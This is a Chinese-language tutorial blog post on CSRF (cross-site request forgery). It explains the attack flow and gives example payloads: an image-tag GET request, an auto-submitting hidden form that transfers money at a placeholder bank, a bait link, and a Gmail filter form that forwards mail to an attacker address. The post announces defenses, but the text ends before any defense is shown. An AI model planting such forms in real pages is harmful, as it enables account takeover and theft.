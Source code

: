 ```yaml
---
title: 前端安全-CSRF
date: 2019-01-21 20:12:26
category: posts
tags: [前端安全,CSRF]
---
```


随着 Web 高速发展, 越来越多的线下业务都转移到线上。Web 程序变得越来越复杂同时安全也成为重中之重。本文将带你认识CSRF, 和其带来的严重危害, 应该如何来进行防御  
   


#### 什么是 CSRF 
CSRF (Cross-site request forgery) 跨站请求伪造。 冒用用户身份凭证, 对目标网站进行设置。

#### CSRF 的攻击过程
- 用户登录了 a.com, 浏览器保留了登录凭证
- 攻击者引诱用户访问攻击网站 b.com
- b.com 向 a.com 发出了一个请求, 例如: a.com?add-user=xxxxxx
- a.com 接收到请求, 进行验证, 有有效凭证, a.com 认为是用户发送的请求
- a.com 执行了操作 add-user
- 攻击完成, 用户并不知道



#### 攻击类型
- Get 类型
```
<img src="https://bank.com?act=xxx">
```
用户访问页面带有如上图片, 浏览器自动请求地址, 攻击完成  

- Post 类型
```
<form action="https://bank.com" method="POST">
  <input type="hidden" name="account" value="xiaoming" />
  <input type="hidden" name="amount" value="100" />
  <input type="hidden" name="act" value="transfer" />
</form>
<script> document.forms[0].submit(); </script> 
```
用户访问页面, 表单自动提交, 攻击完成    

- 链接类型
```
<a href="https://bank.com?act=xxx">点我送100话费</a>
```
链接类型比较少见, 比起前两种一打开页面就中招, 这种还需要用户进行点击, 才能完成攻击  
这种类型比较可能出现在社区网站或者论坛, 直接发起同域攻击或者跳到攻击页面  
这也是社区网站对外链都是严格控制或者不可以发布外链的原因


#### 攻击场景
有一天, 小明登录了 Gmail 邮箱, 悠闲的看着邮件。 突然收到了一封陌生邮件, 特价甩卖, 比特币 888 元一个。  
英明神武的小明肯定不相信, 但还是点开了链接进去瞧瞧。进入后是一个空页面, 于是小明关掉网页。  
过了一段时间, 小明突然发现自己某网站的密码被修改了, 里面的金币也被消费完了。  
修改密码需要通过邮箱, 小明回想起之前的奇怪邮件, 找回那个空白页面, 打开源码一看 
```
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="evilinbox@mail.com"/> 
    <input type="hidden" name="cf1_from" value=""/> 
</form> 
<script> 
    document.forms[0].submit();
</script>
```